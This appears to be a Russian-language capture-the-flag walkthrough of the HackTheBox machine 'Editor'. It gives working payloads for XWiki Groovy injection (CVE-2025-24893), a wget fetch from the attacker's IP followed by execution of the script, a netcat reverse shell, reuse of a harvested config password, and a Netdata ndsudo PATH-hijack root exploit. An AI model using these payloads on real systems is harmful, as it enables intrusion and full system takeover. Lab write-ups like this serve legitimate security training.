

Первое что делаю проверяю nmap

```bash
nmap -sV -sC -Pn 10.129.118.213
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-27 16:19 EEST
Nmap scan report for editor.htb (10.129.118.213)
Host is up (0.052s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Editor - SimplistCode Pro
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://editor.htb:8080/xwiki/bin/view/Main/
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  WebDAV type: Unknown
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-server-header: Jetty(10.0.20)
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.35 seconds
```

Видим, что у нас есть много дерикторий которые по дефолту запрещены

Проверим их я нашел форму логинга попробовал брут форс с помощю гидры, но без результата.

Реши поискать експлойты по версии xwiki, нашел вот этот:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py

Он мне не очень помог, но с него я взял ссылку через которую  подумал что смогу загрузить файл с шелом:

```bash

```

Загружал я так: 

```bash
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.129:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

Перед этип запкстил сервер на питоне и забиндил к нему ip vpn машины, так как по дефоту он берет дефолтный актиынй публичный адрес, а мы использвем vpn

```bash
sudo python3 -m http.server 8000 --bind 10.10.14.129
Serving HTTP on 10.10.14.129 port 8000 (http://10.10.14.129:8000/) ...
10.10.14.129 - - [27/Aug/2025 10:41:25] "GET / HTTP/1.1" 200 -
10.10.14.129 - - [27/Aug/2025 10:41:25] code 404, message File not found
10.10.14.129 - - [27/Aug/2025 10:41:25] "GET /favicon.ico HTTP/1.1" 404 -
10.10.14.129 - - [27/Aug/2025 10:52:36] "GET /shell.sh HTTP/1.1" 200 -
10.129.118.72 - - [27/Aug/2025 11:02:42] "GET /shell.sh HTTP/1.1" 200 -
10.129.118.72 - - [27/Aug/2025 11:02:42] "GET /shell.sh HTTP/1.1" 200 -
```

После загруз шелла, его нужно ызвать, с помощю этого запроса:

```bash
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

И я получил шелл:

```bash
nc -lnvp 4444 -s 10.10.14.129
listening on [10.10.14.129] 4444 ...
connect to [10.10.14.129] from (UNKNOWN) [10.129.118.72] 48194
bash: cannot set terminal process group (1130): Inappropriate ioctl for device
bash: no job control in this shell
xwiki@editor:/usr/lib/xwiki-jetty$ ls
```

Дальше я посмотрел что в home  директории у нас один юзер и я не имею прав с ними взаимодействовать, поэтому я начал искать какие то способы получения прав.

Я начал смотреть что вообще мне доступно как юзеру xwiki и нашел конфигурационный файл с таким содерданием:

```bash
xwiki@editor:/home$ cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
<lib/xwiki/WEB-INF/hibernate.cfg.xml | grep password
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
xwiki@editor:/home$
```

тут видно пароль

далее я решил попробовать приконектится по ssh

```bash
oliver@editor:~$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
oliver@editor:~$
```

Далее нужно повысить привилегии до рута:

sudo -l - показало, что пользователь не может выполнять sudo

ищем далее 

Я загрузил linpeace.sh

Он ничего не дал, кроме активных портов, можно попроовать сделать порт форвардинг и посмотреть что там бижит, может будет уязвимосе ПО:

```bash
══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
══╣ Active Ports (netstat)
tcp        0      0 127.0.0.1:19999         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8125          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:36063         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 127.0.0.1:8079          :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      -
```

Я нашел мониторинговый сервер, к которому я сделал порт форвард:

```bash
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Если просмотреть этот мониторинговый сервис, то видно что у него устаревшая версия с узвимостю




https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93


Summary
The ndsudo tool shipped with affected versions of the Netdata Agent allows an attacker to run arbitrary programs with root permissions.

Details
The ndsudo tool is packaged as a root-owned executable with the SUID bit set.
It only runs a restricted set of external commands, but its search paths are supplied by the PATH environment variable. This allows an attacker to control where ndsudo looks for these commands, which may be a path the attacker has write access to.

PoC
As a user that has permission to run ndsudo:

Place an executable with a name that is on ndsudo’s list of commands (e.g. nvme) in a writable path
Set the PATH environment variable so that it contains this path
Run ndsudo with a command that will run the aforementioned executable
Impact
Local privilege escalation.


Делаю експлойт:

```bash
cat exploit.c 
#include <unistd.h>
#include <stdlib.h>
int main() {
  setuid(0);
  setgid(0);
  execl("/bin/bash", "bash", "-i", NULL);
  return 0;
}

gcc -o nvme exploit.c

scp nvme oliver@editor.htb:/tmp/1111/

oliver@editor:/tmp/1111$ ls
nvme
oliver@editor:/tmp/1111$ chmod +x nvme
oliver@editor:/tmp/1111$ export PATH=/tmp/1111:$PATH
oliver@editor:/tmp/1111$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
root@editor:/tmp/1111#
```

Готово.

